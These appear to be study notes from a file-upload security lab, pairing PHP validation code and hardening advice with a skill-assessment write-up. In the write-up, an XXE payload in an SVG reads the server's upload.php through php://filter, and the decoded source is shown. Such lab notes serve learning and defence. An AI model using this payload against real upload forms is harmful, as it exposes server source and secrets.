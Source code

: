 ```php
$fileName = basename($_FILES["uploadFile"]["name"]);
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

// whitelist test
if (!preg_match('/^.*\.png$/', $fileName)) {
    echo "Only PNG images are allowed";
    die();
}

// content test
foreach (array($contentType, $MIMEtype) as $type) {
    if (!in_array($type, array('image/png'))) {
        echo "Only SVG images are allowed";
        die();
    }
}
```


## Upload Disclosure


- donot expose upload directory
- access permissionf for upload directory
- randomize the names of the uploaded files in storage and store their "sanitized" original names in a database
- use another page to download files `download.php`only grants access to files owned by the users
- do not have direct access to the uploads directory by utilizing the `Content-Disposition` and `nosniff` headers


- `disable_functions` configuration in `php.ini` and add such dangerous functions, like `exec`, `shell_exec`, `system`, `passthru`
- 




# SKILL ASSESSMENT
##### Allowed MIME types
- image/jpeg
- image/png
- ==image/svg==

**Limited File Attack**
- using this payload 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
```
- got base64 and when i decode
```php
<?php
require_once('./common-functions.php');

// uploaded files directory
$target_dir = "./user_feedback_submissions/";

// rename before storing
$fileName = date('ymd') . '_' . basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;

// get content headers
$contentType = $_FILES['uploadFile']['type'];
```